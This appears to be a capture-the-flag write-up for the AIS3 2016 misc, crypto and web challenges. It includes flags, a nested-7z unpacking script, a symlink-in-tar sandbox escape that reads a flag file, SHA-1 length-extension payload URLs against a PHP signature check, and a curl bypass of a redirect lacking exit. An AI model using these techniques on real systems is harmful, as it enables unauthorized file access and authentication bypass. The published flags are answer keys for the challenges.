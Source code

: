 ## misc-1

Open the `[misc1.txt](misc1/misc1.txt)`

The key is `ais3{2016_^_^_hello_world!}`

## misc-2

Hint: 7Zip

此題會給一個沒副檔名又壞掉的 [file](misc2/UNPACK_ME)

透過 [Hex Editor](http://www.azofreeware.com/2014/04/hxd-1770-hex.html) 可以發現它的 header 是一個 7z 壓縮檔

![misc2/img_misc2_1.png](misc2/img_misc2_1.png)

從 [7Zip](http://www.7-zip.org/recover.html) 官方的說明，可以知道真正的 7z header 是 7z 不是 7Z

![misc2/img_misc2_2.png](misc2/img_misc2_2.png)

修復好並解壓縮後，會發現需要密碼，

接著可以猜密碼可能是 `UDJRRDVRJyfbWBxEMLEX`

![misc2/img_misc2_3.png](misc2/img_misc2_3.png)

成功解壓後，又獲得壞掉的壓縮檔，依照以上的修復方式，

再次解壓縮後可以得到放密碼的`secret.txt`，另一個是壞掉的壓縮檔

![misc2/img_misc2_4.png](misc2/img_misc2_4.png)

重複做了好幾次發現，這個壓縮檔可能包了好幾層...

執行以下程式，最後得到 `flag.txt`

`WeiYu$ python misc2_sol.py`

Here is the misc2_sol.py code

``` python
#!/usr/bin/env python3

import os
import subprocess

index = 0

while True:
    archive = str(index) + '.7z'
    key_filename = str(index) + '.key'
    with open(archive, 'rb') as old_archive:
        content = old_archive.read()
        content = b'7z' + content[2:]
        archive = str(index) + '_z.7z'
        with open(archive, 'wb') as f:
            f.write(content)

        key = None
        with open(key_filename, 'r') as f:
            key = f.read().strip()
        subprocess.call('7z e ' + archive + ' -otemp' + ' -p' + key + ' -y',shell=True)

        index += 1
        os.rename("./temp/secret.txt", "./" + str(index) + ".key")

        file_list = os.listdir("./temp")
        assert len(file_list) == 1

        os.rename("./temp/" + file_list[0], "./" + str(index) + ".7z")
        pass
```

The key is `ais3{7zzZzzzZzzZzZzzZiP}`


## misc-3

Hint: symbolic link (透過 tar 可保留 symbolic link)

`WeiYu$ ln -s ../flag.txt guess.txt`

`WeiYu$ tar cvf guess.tar guess.txt`

`WeiYu$ python misc3_sol.py`

Here is the misc3_sol.py code

``` python
#!/usr/bin/env python3

import telnetlib

data = str.encode(list(open('guess.tar'))[0])
client = telnetlib.Telnet('quiz.ais3.org', 9150)
client.write(str.encode(str(len(data))) + '\n' + data)
print(client.read_all())
```

The key is `ais3{First t1me 1$sc4pe tHE S4nd80x}`

## crypto-1

Hint: XOR

可以透過 [xortool](https://github.com/hellman/xortool) 破解此題

以下為執行畫面
![crypto1/xortool_sol.png](crypto1/xortool_sol.png)

得到了 `ais3{XoR_enCrYPti0N_15_n0t_a_G00d_i!ea}`

但上傳 key 的時候，發現不正確... ((崩潰

後來發現有個英文單字拼錯，修改後，得到了通關的 key

The key is `ais3{XoR_enCrYPti0N_15_n0t_a_G00d_idea}`


## crypto-2

Source Code

``` php
<?php
    $path = "..";
    $file = "flag.txt";
    $authenticated = false;
    $secret = trim(file_get_contents("$path/$file"));
    assert(strlen($secret) <= 60);

    if(isset($_GET['expire']) && isset($_GET['auth'])) {
        $expire = $_GET['expire'];
        $auth = $_GET['auth'];
        $qstr = substr(strstr($_SERVER['REQUEST_URI'], '?'), 1);
        $qstr = preg_replace('/&auth=.*/', '', $qstr);
        $qstr = urldecode($qstr);
        if(sha1($secret . "$qstr") === $auth) {
            if($expire > time(0)) {
                $authenticated = true;
            }
        }
    } else {
        $expire = time(0) - 1000000;
        $auth = sha1($secret . "expire=$expire");
        $uri = preg_replace('/\?.*/', '', $_SERVER['REQUEST_URI']);
        header("HTTP/1.1 302 Found");
        header("Location: $uri?expire=$expire&auth=$auth");
        die;
    }
?>
```

這篇參考了 PCC 的 [writeup](https://github.com/pcchou/ctf-writeups/blob/master/2016/tw-edu-ctf/LEA/README.md")

得知此題是 `length extension attack` 處理

Payload 1
```
https://quiz.ais3.org:8014/?expire=1467343030%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%01h
&expire=2467343030&auth=b3afa04f67bff2c22754d4313a91b82cf2ad0eb0
```
Payload 2
```
https://quiz.ais3.org:8014/?expire=1467346517&auth=5c85f041d3de578d2acca06a90cf83633129e24e
&expire=12467346517
```

The key is `ais3{HasH.eXtension.@tt@ck!}`

## web-1

開啟 [web1](https://quiz.ais3.org:8011) 看到以下內容

```
There is a secret page in these website. Even Google can not find it, can you?
```

推測是 `robots.txt`，得到了以下資訊

```
User-agent: *
Disallow: /admin
Disallow: /cgi-bin/
Disallow: /images/
Disallow: /tmp/
Disallow: /private/
Disallow: /this_secret_page_you_should_not_know_where_it_is.php
```

開啟 [`https://quiz.ais3.org:8011/this_secret_page_you_should_not_know_where_it_is.php`](https://quiz.ais3.org:8011/this_secret_page_you_should_not_know_where_it_is.php)


The key is `ais3{Y0u_beat_the_G00g1e!!}`


## web-2

開啟 [web2](https://quiz.ais3.org:8012/)

``` php
<?php
error_reporting(0);
include "flag.php";

// Strong IP firewall, no-one can pass this except the admin in localhost
if ($_SERVER['REMOTE_ADDR'] !== '127.0.0.1')
{
header("Location: you_should_not_pass");
}
?>

<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8">
    <title>Admin Panel</title>
</head>
<body>
Admin's secret is: <?php echo $flag; ?>
</body>
</html>
```

可以看到這段 php 沒有 `exit` 跟 `die`，因此 body content 還是會輸出

``` php
WeiYu$ curl https://quiz.ais3.org:8012/

<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8">
    <title>Admin Panel</title>
</head>
<body>
Admin's secret is: ais3{admin's_pane1_is_on_fir3!!!!!}
</body>
</html>
```

The key is `ais3{admin's_pane1_is_on_fir3!!!!!}`


## web-3

開啟 [web3](https://quiz.ais3.org:8013/)

可以自己架起來玩 [PHP](web3/) 此漏洞在 PHP7 已被修復
